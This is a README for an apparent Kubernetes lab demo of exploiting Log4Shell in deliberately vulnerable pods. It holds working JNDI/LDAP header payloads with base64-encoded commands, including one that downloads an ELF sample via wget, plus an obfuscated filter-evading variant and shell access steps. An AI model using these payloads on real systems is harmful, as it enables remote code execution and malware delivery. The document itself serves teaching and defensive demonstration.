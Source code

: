 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [Running the Demo](#running-the-demo)
- [Encode with base64 your command](#encode-with-base64-your-command)
- [Execute the attack without obfuscation](#execute-the-attack-without-obfuscation)
- [Execute the attack with obfuscation](#execute-the-attack-with-obfuscation)
- [Confirm that the code execution was successful](#confirm-that-the-code-execution-was-successful)
- [Connect to runnint pod](#connect-to-runnint-pod)
- [Delete file inside the container](#delete-file-inside-the-container)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

Running the Demo
----------------

kubectl config set-context $(kubectl config current-context) --namespace=dirty-net2

1. Get into the attacking host

`
kubectl exec -it pod-attack-machine -n dirty-net -- /bin/sh
`

2. Run the following two commands to execute the attack to the “vul-app1” container

`
curl -v vul-app1:8080 -H 'X-Api-Version: ${jndi:ldap://att-svr-5cd59d5f4-2vcfv:1389/Basic/Command/Base64/d2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK}'
`

Note: The command embedded in the HTTP header is

$ echo 'd2dldCBodHRwOi8vd2lsZGZpcmUucGFsb2FsdG9uZXR3b3Jrcy5jb20vcHVibGljYXBpL3Rlc3QvZWxmIC1PIC90bXAvbWFsd2FyZS1zYW1wbGUK' | base64 -d wget http://wildfire.paloaltonetworks.com/publicapi/test/elf -O /tmp/malware-sample





## Encode with base64 your command

```console
echo "touch /tmp/youHaveBeenPwned" | base64 -w0
dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==
```

## Execute the attack without obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${jndi:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Execute the attack with obfuscation

```console
curl $(kubectl get svc vul-app1-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
curl $(kubectl get svc vul-app2-frontend --no-headers | awk '{ print $4 }') -H 'X-Api-Version: ${${::-j}${::-n}${::-d}${::-i}:ldap://att-svr:1389/Basic/Command/Base64/dG91Y2ggL3RtcC95b3VIYXZlQmVlblB3bmVkCg==}'
```

## Confirm that the code execution was successful

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- ls -l /tmp
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- ls -l /tmp

```

## Connect to runnint pod

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- sh
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- sh
```

## Delete file inside the container

```console
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app1) -- rm -f /tmp/youHaveBeenOwned
kubectl exec --stdin --tty $(kubectl get pods -oname | grep vul-app2) -- rm -f /tmp/youHaveBeenOwned
```
